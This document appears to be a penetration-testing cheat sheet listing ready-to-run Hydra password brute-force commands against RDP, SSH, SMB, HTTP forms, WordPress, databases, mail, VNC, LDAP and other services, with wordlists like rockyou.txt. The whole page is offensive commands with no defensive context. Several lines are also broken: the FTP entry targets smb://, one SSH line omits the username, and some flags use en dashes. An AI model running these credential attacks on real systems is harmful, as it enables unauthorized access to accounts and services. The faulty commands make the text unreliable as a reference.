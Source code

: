 
#### Hydra GUI
[xhydra](https://www.kali.org/tools/hydra/#hydra-gtk)
```bash
sudo apt install hydra-gtk
```


#### RDP
```shell
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
```

#### SSH
```shell
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
hydra $ip -s 22 ssh -l -P big_wordlist.txt
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
```

#### SMB
```shell
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
```

#### FTP
```shell
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

#### HTTP Basic Auth
```shell
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
Http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin
```

#### HTTP Post
```shell
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.216.57 http-post-form "/Account/login.aspx:__VIEWSTATE=AmInWQjOL%2BAHMc9qQ0CW0CFnlUXaqoRXEj%2FOvBixV%2Fld9p%2BKj%2B7mB%2FZ7FcrOxWmCkIjSfD9utiaSxAvSBmKz1VkaDvYW9b5sxJWoX3ZOskfQg0u3CsSjndshwiuLcEq7l%2BRc7FwwBs%2BvLvrnXfcLFt%2B0vNv1zwwLa3QoTUjG3V9hk0Sg&__EVENTVALIDATION=zMZzvwm4lfkTglvBFfLhbEjJu8yEheigLkmHJ7E8owtV2FVK0TTZdne0RExmMdPY5RORs4UuLmymoBfQmY8UwKaRwaqnpZkAM%2BPLgxPNj3wtiiTaC4jbJSUoKPCRWBtpMIz4vtdxr9zbhDPn5zB7IJSOpA%2FMzo6LYD9oiiaMKWUj8VNM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

#### IMAP
```shell
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

#### MySQL
```shell
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

#### POP
```shell
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
```

#### Redis
```shell
hydra –P password.txt redis://10.0.2.5 -V
```

#### Rexec
```shell
hydra -l root -P password.txt rexec://10.0.2.5 -V
```

#### Rlogin
```shell
hydra -l root -P password.txt rlogin://10.0.2.5 -V
```

#### RSH
```shell
hydra -L username.txt rsh://10.0.2.5 -V
```

#### RSP
```shell
hydra -l root -P passwords.txt <IP> rtsp
```

#### SNMP
```shell
hydra -P password-file.txt -v $ip snmp
```

#### SMTP
```shell
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL
```

#### Telnet
```shell
hydra -l root -P passwords.txt [-t 32] <IP> telnet
```

#### VNC
```shell
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```

#### Wordpress
```shell
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	
```

#### LDAP
```shell
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
```

